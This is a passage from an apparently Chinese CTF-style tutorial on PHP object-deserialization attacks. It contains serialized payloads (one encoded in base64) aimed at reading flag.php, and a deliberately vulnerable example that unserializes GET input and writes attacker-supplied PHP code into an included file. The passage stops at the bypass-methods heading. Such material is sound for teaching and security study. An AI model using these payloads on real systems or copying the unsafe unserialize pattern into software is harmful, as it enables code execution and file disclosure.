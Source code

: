 ```php
<?php 
class MoChu{
	protected $file = 'flag.php';
}
$a = new MoChu();
echo serialize($a);
?>
```

运行结果:

```php
O:5:"MoChu":1:{s:7:" * file";s:8:"flag.php";}
```

注意:

1. `file`是`protected`类型的属性，反序列化需要在属性名前加上`\00*\00`
2. 这里使用了`\00`就是使用了`转义的二进制字符串`，在前面序列化的格式已经提及使用了转义的二进制字符串，符号是要使用大写的`S`

最终得到的反序列化字符：

```php
O:5:"MoChu":2:{S:7:"\00*\00file";s:8:"flag.php";}
```

得到的base64：`Tzo1OiJNb0NodSI6Mjp7Uzo3OiJcMDAqXDAwZmlsZSI7czo4OiJmbGFnLnBocCI7fQ==`

### 例题:

```php
<?php
    class A{
        public $target = "test";
        function __wakeup(){
            $this->target = "wakeup!";
        }
        function __destruct(){
            $fp = fopen("D:\Program Files\PHPTutorial\WWW\zx\hello.php","w");
            fputs($fp,$this->target);
            fclose($fp);
        }
    }
    $a = $_GET['test'];
    $b = unserialize($a);
    echo "hello.php"."<br/>";
    include("./hello.php");
?>
```

魔法函数`__wakeup()`要比`__destruct()`先执行，所以我们之间传入
`O:1:"A":1:{s:6:"target";s:18:"<?php phpinfo();?>";}`时会被先执行的`__wakeup()`函数`$target`赋值覆盖为`wakeup!`，然后生成的`hello.php`里面的内容就是`wakeup!`

绕过方法:
